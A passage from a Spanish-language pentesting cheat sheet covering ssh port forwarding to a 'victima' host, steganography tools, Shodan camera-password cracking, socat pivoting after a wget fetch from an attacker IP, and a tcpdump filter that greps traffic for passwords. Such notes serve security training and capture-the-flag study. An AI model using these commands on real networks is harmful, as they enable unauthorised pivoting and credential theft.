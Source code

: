 
### smbserver.py 
```bash
smbserver.py <nombredelrecurso> <directorioacompartir> 
```


### ss (socket statistics) 
<https://neverendingsecurity.wordpress.com/2015/04/13/ss-socket-statistics-commands-cheatsheet/>

 
### ssh 
para conectarte al puerto 22
-o StrictHostKeyChecking=no   #evita que pida confirmaciòn 
#Portforward 
```bash
ssh -L 80:172.0.0.1:80 root@victima 
```

### Steghide
programa de esteganografía 

```bash
steghide embed -ef sample.txt -cf image.jpg -sf output.jpg 
steghide extract -sf image.jpg -p <pass> 
```

### Stegsnow 

```bash
stegsnow –m secreto infile outfile 
stegsnow –C outfile 
```

 
### Shodan
herramienta que indexa en la Internet todos los equipos conectados IoT, con la descripción del tipo de equipo, servicios expuestos, versiones y demás características relevantes 
<https://www.shodan.io>

### Shodanwave 
Permite buscar cámaras ip vía shodan y crackear sus password. 

 
### Socat 
para pivotear en otra red (o para hacer port forwarding) 

```bash
cd /tmp 
wget http://10.10.14.6/socat (hay que levantar un servicio web para ofrecerlo) 
chmod +x socat 
./socat tcp-listen:<ipquequierousar>,reuseaddr,fork tcp:<ip>:<ipreal> 
```

### tcpdump
sniffer de tráfico local de red
```bash
tcpdump -i tun0 icmp 
tcpdump <portname> -l -A | egrep -i 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user ' --color=auto --line-buffered -B20 
```
